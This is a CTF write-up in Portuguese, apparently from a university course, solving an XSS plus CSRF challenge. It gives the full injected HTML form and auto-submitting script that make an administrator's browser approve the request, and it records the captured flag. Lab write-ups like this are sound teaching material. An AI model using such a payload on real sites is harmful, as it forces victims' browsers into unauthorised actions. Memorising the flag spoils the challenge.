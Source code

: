 # LOGBOOK6 - CTF - XSS + CSRF
<div align="justify">
<p>Neste CTF, ao entrar no site mencionado, deparamo nos com uma caixa de texto na qual podemos inserir qualquer tipo de conteúdo, e o administrador fornecerá a flag dependendo do input. </p>
![Alt text](uploads/logbook6P1.png)
<p>
Para analisar o que acontece no site, inserimos um texto e observamos que há uma página com um formulário onde o administrador decide se o input enviado é aceitável (fornecendo assim a flag) ou não. </p>
![Alt text](uploads/logbook6P2.png)
![Alt text](uploads/logbook6P3.png)
<p>Com isso em mente, pensamos que poderia ser possível inserir um formulário idêntico ao que o administrador tinha acesso, mas com um 'script' que 'forçasse' o administrador a aceitar o que era enviado.
Analisando o código-fonte da página, verificamos que o 'formulário' que precisa de ser enviado, fornecendo a flag, possui o seguinte código:</p>
</div>

```html
<form method="POST" action="/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```
Assim, para que o formulário seja 'submited' automaticamente, inserimos o seguinte 'script' no nosso input:
```html
<script>document.getElementById('fake_id').submit()</script>  
<!-- O fake_id é o id colocado no 'form' que foi colocado no input -->
<!-- Este script procura um elemento com ID = fake_id e submete esse formulário -->
```
Com isso, o 'input' que enviamos foi o seguinte:
```html
<form method="POST" id='fake_id' action="http://ctf-fsi.fe.up.pt:5005/request/6b14dc9c65f712d891dfffadbfcec3d631d032d4/approve" role="form">
    <div class="submit">     
        <input type="submit">
    </div> 
</form> 
<script>document.getElementById('fake_id').submit()</script>  
```
<div align="justify">
<p>Após o envio do nosso formulário, a página é recarregada, mostrando a flag, embora esta seja redirecionada para outra página quase instantaneamente. Portanto, para obtermos a flag, assim que enviamos a nossa resposta, pressionamos o botão 'parar' para evitar o redirecionamento automático, conseguindo então obter a flag: flag{a03da844bb383e699a2c1a32c5d4a0d6}.</p>
![Alt text](uploads/logbook6P4.png)
![Alt text](uploads/logbook6P5.png)
![Alt text](uploads/logbook6P6.png)
</div>
